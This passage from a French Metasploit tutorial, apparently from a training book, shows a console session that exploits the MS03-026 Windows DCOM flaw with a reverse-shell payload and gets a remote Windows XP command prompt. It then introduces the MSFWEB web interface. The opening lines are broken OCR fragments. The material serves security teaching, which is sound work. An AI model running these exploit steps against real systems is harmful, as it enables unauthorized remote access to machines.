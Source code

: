 ```text
version  
Select an exploit by name  
Show console version  
msf > show exploits  
msf > use msrpc_dcom_ms03_026  
msf msrpc_dcom_ms03_026 > set RHOST 192.168.9.14  
RHOST -> 192.168.9.14  
msf msrpc_dcom_ms03_026 > set LHOST 192.168.9.100  
LHOST -> 192.168.9.100  
msf msrpc_dcom_ms03_026 > set PAYLOAD win32_reverse  
PAYLOAD -> win32_reverse  
msf msrpc_dcom_ms03_026(win32_reverse) > show TARGETS  
Supported Exploit Targets  
=========================  
0 Windows NT SP3-6a/2K/XP/2K3 English ALL  
msf msrpc_dcom_ms03_026(win32_reverse) > set TARGET 0  
TARGET -> 0  
msf msrpc_dcom_ms03_026(win32_reverse) > exploit  
[*] Starting Reverse Handler.  
[*] Sending request...  
[*] Got connection from 192.168.9.100:4321 <-> 192.168.9.14:1031 
Microsoft Windows XP [Version 5.1.2600]  
(C) Copyright 1985-2001 Microsoft Corp.  
C:\WINDOWS\system32>
```

#### c. Metasploit Web Interface \(MSFWEB\)

MSFWEB lance un serveur sur le port 55555, IP 127.0.0.1.

Si nous nous connectons sur ce port avec un navigateur web, nous obtenons l’interface graphique de Metasploit.

Essayons d’exploiter un vnc\_reverse sur la même machine que précédemment.

```text

framework2 # ./msfweb  
+----=[ Metasploit Framework Web Interface (127.0.0.1:55555)
```

![images/04EP08.png](https://www.eni-training.com/download/e6942060-4181-4dd7-bce3-601625551eb9/images/04EP08.png?id=AAEAAAD%2f%2f%2f%2f%2fAQAAAAAAAAAMAgAAAE1FbmkuRWRpdGlvbnMuTWVkaWFwbHVzLCBWZXJzaW9uPTEuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49bnVsbAUBAAAAJ0VuaS5FZGl0aW9ucy5NZWRpYXBsdXMuQ29tbW9uLldhdGVybWFyawIAAAAHcGlzVGV4dAlwaWR0ZURhdGUBAA0CAAAABgMAAAA0Um90ZW4gQ8OpZHJpYyAtIGNlNmMyNzBjLWU3NjMtNDYwZC05MzZlLTc3ZmZhMTBmMjAzYUAn10qU0tiICw%3d%3d)

Cette version peut sembler un peu vieillotte mais peut encore nous aider dans certains cas. Nous retrouvons trois liens : **EXPLOITS**, **PAYLOADS** et **SESSIONS**. 

**SESSIONS** ne nous servira que lorsqu’un exploit aura fonctionné pour accéder à la machine victime.

Nous avons la possibilité de filtrer la recherche par service par exemple \(FTP, HTTP...\) ou par OS \(Operating System\).![images/04EP09.png](https://www.eni-training.com/download/e6942060-4181-4dd7-bce3-601625551eb9/images/04EP09.png?id=AAEAAAD%2f%2f%2f%2f%2fAQAAAAAAAAAMAgAAAE1FbmkuRWRpdGlvbnMuTWVkaWFwbHVzLCBWZXJzaW9uPTEuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49bnVsbAUBAAAAJ0VuaS5FZGl0aW9ucy5NZWRpYXBsdXMuQ29tbW9uLldhdGVybWFyawIAAAAHcGlzVGV4dAlwaWR0ZURhdGUBAA0CAAAABgMAAAA0Um90ZW4gQ8OpZHJpYyAtIGNlNmMyNzBjLWU3NjMtNDYwZC05MzZlLTc3ZmZhMTBmMjAzYUAn10qU0tiICw%3d%3d)
